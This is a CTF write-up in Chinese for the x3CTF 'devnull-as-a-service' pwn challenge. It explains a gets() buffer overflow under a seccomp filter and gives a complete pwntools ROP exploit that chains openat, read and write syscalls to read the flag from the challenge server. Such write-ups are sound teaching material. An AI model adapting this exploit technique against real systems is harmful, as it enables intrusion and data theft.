 # pwn - devnull-as-a-service Writeup

---  
![pic](pic/description.png)

## FLAG：
`MVM{r0p_4nd_sh3llc0d3_f0rm5_4_p3rf3c7_b4l4nc3}`

## 觀察：
- 執行檔案：使用者輸入input後結束。
- IDA分析：
	- `dev_null()`：呼叫`enable_seccomp()`，並且`gets()`存在bof漏洞。
	  ![pic](pic/dev_null.png)
	- `enable_seccomp()`：建立許多seccomp結構並啟用seccomp規則。

## 思路：
- 手動分析`enable_seccomp()`所啟用的規則過於麻煩，可以使用[seccomp-tools](https://github.com/david942j/seccomp-tools)進行分析：
  ![pic](pic/seccomp-tools.png)
- 由於`open`、`execve`等 system call 被禁用，必須透過`openat`、`read`、`write`來取得flag。
- 在bof漏洞中構造ROP chain，執行上述system call。


## Exploit：  

Reference：[https://github.com/rerrorctf/writeups/blob/main/2025_01_24_x3CTF25/pwn/devnull-as-a-service/writeup.md]()

```python
#!/usr/bin/env python3
from pwn import *

SCRATCH_MEMORY = 0x4af000

# mov qword ptr [rsi], rax ; ret
GADGET_MOV_QWORD_PTR_RSI_RAX = 0x420f45

# xchg rax, rdx ; ret
GADGET_XCHG_RAX_RDX = 0x41799a
  
FLAG_SIZE = 46
  
#context.log_level = "debug"
elf = ELF("./dev_null", checksec=False)
context.binary = elf
  
p = remote("342e3496-89c9-43e5-87ac-785009edfbda.x3c.tf", 31337, ssl=True)
p.readline()
  
rop = ROP(elf)
rop.raw(b"A" * 0x10)
  
# write the path to memory
rop.rsi = SCRATCH_MEMORY
rop.rax = u64(b"/home/ct")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
rop.rsi = SCRATCH_MEMORY + 8
rop.rax = u64(b"f/flag.t")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
rop.rsi = SCRATCH_MEMORY + 16
rop.rax = u64(b"xt\x00\x00\x00\x00\x00\x00")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
  
# openat(-1, "/home/ctf/flag.txt", O_RDONLY) => 3
rop.rdi = -1
rop.rsi = SCRATCH_MEMORY
rop.rax = constants.SYS_openat
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
  
# read(flag, SCRATCH_MEMORY + 24, FLAG_SIZE)
rop.rdi = 3
rop.rsi = SCRATCH_MEMORY + 24
rop.rax = FLAG_SIZE
rop.raw(GADGET_XCHG_RAX_RDX)
rop.rax = constants.SYS_read
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
  
# write(stdout, SCRATCH_MEMORY + 24, FLAG_SIZE)
rop.rdi = 1
rop.rsi = SCRATCH_MEMORY + 24
rop.rax = FLAG_SIZE
rop.raw(GADGET_XCHG_RAX_RDX)
rop.rax = constants.SYS_write
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
  
p.sendline(rop.chain())
  
# MVM{r0p_4nd_sh3llc0d3_f0rm5_4_p3rf3c7_b4l4nc3}
print(p.readuntil(b"}").decode())
```

![pic](pic/flag.png)